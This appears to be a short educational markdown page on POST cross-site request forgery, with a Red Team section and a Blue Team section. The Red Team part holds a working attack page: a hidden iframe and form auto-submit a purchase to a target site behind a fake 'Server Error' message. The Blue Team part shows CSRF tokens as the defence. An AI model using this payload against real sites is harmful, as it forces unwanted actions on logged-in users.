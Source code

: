 # Cross Site Request Forgery (CSRF) POST

A POST CSRF attack is when someone makes a POST request as a user on a different site without that user knowingly prompting the request. This works if the user is already authenticated with the target site via cookies, because browsers will automatically attach a site's cookies to any requests to that site.

[No need for CSRF protection with APIs that don't use cookies](https://security.stackexchange.com/questions/166724/should-i-use-csrf-protection-on-rest-api-endpoints#comment338757_166798)

## Red Team

On your fake application create an `iframe` with a POST action to the target website. Trick a user into visiting this page, and as long as they are already authenticated with the real site (and not using CSRF tokens) the POST request will be successfully sent.

```html
<!-- fake.example.com -->
<html>
  <body>
    <p>Server Error. Please try again later</p>

    <!--
      The iframe is useful for preventing a redirect on submit(), since
      the domain to submit to is different than the current domain.
    -->
    <iframe style="display: none;" name="csrf-frame"></iframe>
    <form id="csrf-form" action="https://real.example.com/shop" method="POST" target="csrf-frame">
      <input type="hidden" name="purchased_item" value="something_nice">
    </form>
    <script>document.getElementById('csrf-form').submit()</script>
  </body>
</html>
```

## Blue Team

To protect against CSRF attacks utilize CSRF tokens to validate that the request actually came from your own site.

```html
<form action="/shop" method="post">
  <input type="hidden" name="csrf-token" value="<%= dynamically_generated_csrf_token %>">
  <input type="hidden" name="purchased_item" value="something_nice">
  <button id="purchase">Buy</button>
</form>
```
